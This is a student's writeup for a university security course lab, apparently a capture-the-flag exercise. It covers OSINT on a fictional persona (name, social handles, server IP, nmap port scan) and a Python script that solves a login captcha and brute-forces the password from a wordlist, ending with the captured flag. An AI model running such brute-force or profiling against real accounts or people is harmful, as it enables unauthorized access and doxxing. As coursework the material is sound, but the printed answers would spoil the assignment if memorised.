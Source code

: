 # Writeup 2 - OSINT

Name: *PUT YOUR NAME HERE*
Section: *PUT YOUR SECTION NUMBER HERE*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *PUT YOUR NAME HERE*

## Assignment Writeup

### Part 1 (45 pts)

1.    What is ejnorman84's real name?
`Eric J. Norman`
2.    Where does ejnorman84 work? What is the URL to their website?
`Wattsamp Energy, http://wattsamp.net/index.html`
3.    List all personal information (including social media accounts, contacts, etc) you can find about ejnorman84. For each, briefly detail how you discovered them.
`EricNorman84 – twitter handle (I discovered this by just searching for his handle on twitter)
EricNorman84 – Instagram handle (I discovered this by just searching for his handle on Instagram)`
4.    List any ( >= 1 ) IP addresses associated with the website. For each, detail the location of the server, any history in `DNS, and how you discovered this information.
157.230.179.99 – IP address which is based from North Bergen, New Jersey, USA 07047
The DNS history is new.
The website was saved on September 7th, which is also when the website was hosted.
I found all this information in html scripts of the website`
5.    List any hidden files or directories you found on this website.
`Hidden file called assets in the parent directory, I also found links to UMD cyber security clubs website (cec.umd.edu and their twitter page (umdcsec))`
6.    What ports are open on the website? What services are running behind these ports? How did you discover this?
`22/tcp open ssh
25/tcp filtered smtp
80/tcp open http
1337/tcp open waste
I figured these out by using nmap website name and running the command on all ports`
7.    Which operating system is running on the server that is hosting the website? How did you discover this?
`Ubuntu, I used the website browserspy.dk/webserver.php`
8.    BONUS: Did you find any other flags on your OSINT mission? Note: the standard flag format for bonus flags is *CMSC389R-{}. (Up to 9 pts!)


### Part 2 (75 pts)

*Please use this space to detail your approach and solutions for part 2. Don't forget to upload your completed source code to this /writeup directory as well!*


Located flag.text
contents: Good! Here's your flag: CMSC389R-{!enough_nrg_4_a_str0ng_Pa$$wrd}

My approach to this program:

From the code that was provided I knew we using a socket to send and recieve information. So my first step was to find out using nc what the program was asking for, and from that I learned we needed to solve the captcha.

First thing in my head was to send back an answer for the captcha to prompt me to the username line, and then the password.

I figured out the username through the website, but for the password I needed to parse through the file and automate the process until I guessed for a password.

Here is my code:
```import socket
import re
import time

host = "157.230.179.99" # IP address here
port = 1337 # Port here
wordlist = "/Users/jshaik/Desktop/guru99.txt" # Point to wordlist file

def brute_force():

with open(wordlist) as fp:
for cnt, line in enumerate(fp):
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
time.sleep(3)
data = s.recv(2048)     # Receives 1024 bytes from IP/Port


exp = re.search('~~~ CAPTCHA ~~~\\n([\d]+) ([-+*\/]) ([\d]+)', data.decode().strip())


if(exp.group(2) == '+'):
ans = int(exp.group(1)) + int(exp.group(3))
elif (exp.group(2) == '-'):
ans = int(exp.group(1)) - int(exp.group(3))
elif (exp.group(2) == '*'):
ans = int(exp.group(1)) * int(exp.group(3))
else:
ans = int(exp.group(1)) // int(exp.group(3))

answerToSend = str(ans)+"\n"

# send captcha answer
s.send(answerToSend.encode())
# send username
username = "ejnorman84\n"
s.send(username.encode())
password = line+"\n"
s.send(password.encode())

time.sleep(1)
status = s.recv(1044)

if "Fail".encode() in status:
print(status)
else:
print("Success" + password)
break

if __name__ == '__main__':
brute_force()```
